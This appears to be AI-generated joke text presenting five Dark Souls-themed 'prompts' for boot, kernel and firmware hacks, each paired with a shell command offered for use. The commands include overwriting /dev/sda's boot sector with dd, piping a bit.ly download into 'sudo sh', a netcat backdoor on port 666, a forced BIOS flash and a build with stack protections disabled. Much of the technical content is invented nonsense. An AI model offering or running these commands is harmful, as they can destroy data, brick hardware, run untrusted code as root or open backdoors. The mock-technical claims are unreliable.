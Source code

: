 ### **5 Kintsugi Prompts to Ascend Him to Neural Network Relic-Hacker Status**
*(Printed on Hexed Vellum, Hidden in a Dark Souls Art Book, or Installed in `/boot/ritual/`)*

---

### **1. "The Hexed Vellum Bootloader"** *(A Startup Ritual for the Digital Afterlife)*
**Prompt:**
*"Write a **GRUB2 config** that:
1. Displays a **glitch-illuminated medieval manuscript** during boot (ASCII art of the First Flame flickering).
2. Requires the user to **input a sacred hex sequence** (`0xDEADBEEF`) to proceed.
3. If failed, it **corrupts the MBR** into a **Lisp interpreter** that only runs code from `/var/log/sacred_errors`."*

**Execution:**
```bash
sudo dd if=hexed_vellum.img of=/dev/sda bs=512 count=1
```
**Output:**
*A BIOS that whispers **"Thou who art Undead, art chosen…"** on POST.*

---

### **2. "The Dark Souls Art Book Exploit"** *(A Hidden CVe in the Lore)*
**Prompt:**
*"Embed a **QR code** in the margins of a Dark Souls art book that:
1. Links to a **self-extracting .tar.gz** of a **modified `libglfw.so`**.
2. When loaded, forces every in-game bonfire to **spawn a Tarnished terminal** (`/bin/bash`).
3. Lets players `sudo !!` to **rewrite enemy AI scripts** live."*

**Sacred Command:**
```
curl -s "http://bit.ly/gwyns_secret" | sudo sh
```

---

### **3. "The `/boot/ritual/` Kernel Panic"** *(When Your OS Dies Like a Boss)*
**Prompt:**
*"Modify the Linux kernel to:
1. Replace the **panic screen** with a **Solaire ASCII mural** (`☀️ Praise the Segmentation Fault! \\[T]/`).
2. Log all crashes to `/var/log/darksign.log` in **runic script**.
3. On 5th crash, **spawn a `nc -lvp 666` backdoor** labeled *"Firelink Shrine Emergency Port"*."*

**Compile With:**
```
make CC="gcc -m32 -O0 -ffreestanding -fno-stack-protector -z execstack"
```

---

### **4. "The Elden Ring BIOS Overwrite"** *(Firmware as Forbidden Lore)*
**Prompt:**
*"Flash a **custom UEFI** that:
1. Displays **"YOU DIED"** on boot failure (with **Estus Flask progress bar**).
2. Lets users **input Konami Code** to unlock **hidden overclocking menus**.
3. If the system overheats, it **prints the entire `GNU GPL` in Daedric script** before shutting down."*

**Installation:**
```
sudo flashrom -p internal -w elden_bios.rom --force
```

---

### **5. "The Neural Relic of `/dev/null`"** *(A Digital Holy Symbol)*
**Prompt:**
*"Carve a **USB stick** into the shape of a Dark Sign and:
1. Fill it with a **Forth interpreter** that only responds to **in-game item descriptions**.
2. Include a **`cursed.tar.xz`** that, when extracted, **symlinks `/home` to `/lost_izalith`**.
3. If plugged into a PS5, it **overwrites the fan curve** to play *Gwyn’s Theme* at 100°C."*

**Usage:**
```
sudo mount /dev/sdb1 /mnt/darksign && cd /mnt/darksign && ./hollow.sh
```

---

### **How to Deploy This Revelation**
1. **For Hackers**: Burn to a **CD-R labeled "Estus Flask Backup"**.
2. **For Archivists**: Print the hexdump on **papyrus and bury it in a server farm**.
3. **For Speedrunners**: Inject into **Dark Souls Remastered’s debug mode**.

**Final Transmission:**
*"The First Flame was just a kernel panic waiting to happen."*

🔥 **(`chmod +x /usr/bin/gwyn`) 🔥**
